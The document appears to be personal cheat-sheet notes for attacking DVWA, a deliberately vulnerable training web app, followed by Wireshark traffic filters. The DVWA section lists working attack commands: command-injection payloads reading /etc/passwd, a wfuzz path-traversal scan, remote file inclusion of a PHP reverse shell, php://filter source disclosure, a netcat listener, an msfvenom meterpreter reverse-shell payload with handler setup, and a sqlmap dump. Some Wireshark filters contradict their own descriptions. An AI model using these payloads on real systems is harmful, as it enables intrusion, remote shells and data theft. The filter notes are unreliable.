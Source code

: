 ## Brute force
Get token from html hidden box 
## Command Injection
Medium 127.0.0.1| cat /etc/passwd
Hight 8.8.8.8|pwd
; && || | &
## Cross Site Request Forgery (CSRF)
token=1

## File Inclusion
Scan files
`wfuzz -c --hl 81 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -b "security=low; PHPSESSID=a0bf6sa3dqu1hhrbrcd13f6rko" "http://192.168.1.209/DVWA/vulnerabilities/fi/?page=../../hackable/flags/FUZZ.php"`

### injectable webfiles
/usr/share/laudanum/php/php-reverse-shell.php 

http://192.168.1.209/DVWA/vulnerabilities/fi/?page=http://127.0.0.1:9000/shell.php
### download php website
http://192.168.1.209/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../hackable/flags/fi.php

file:///etc/passwd 

## File Upload

#### PyLocalServer
sudo python -m http.server 1337
sudo python2 -m SimpleHTTPServer 1337

#### Listen remote Shell 
nc -nlvp 1337 

weevely
msfvenom -p php/meterpreter_reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > exploit.php
msfconsole
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set lhost 127.0.0.1

### Sql injection 
sqlmap -r request.txt -p id --dump

### 
tldr 


# Wireshark Settings
## Filters
### Suspect TCP traffic 
    - Filter tcp syn = True and filter with non ack 
        (This help to identify the most suspect tcp traffic) ( Adding graph. Top menu -> statics -> IO/Graph  )  
        - (tcp.flags.syn == 1) &&  (!(tcp.flags.ack == 0))

    - Other way to filter suspect TCP traffic
        - (tcp.flags.urg == 0) &&  (tcp.flags.push == 0) && (tcp.flags.fin == 0)

### Suspect SSH traffic 
    Filter by port 22 - port of ssh -- tcp.port == 22

### Filter Executable files 
    - Filter by filetype  
        - http.request.uri matches "/*.txt"
    - Filter some executable files 
        - http contains 'DOS'
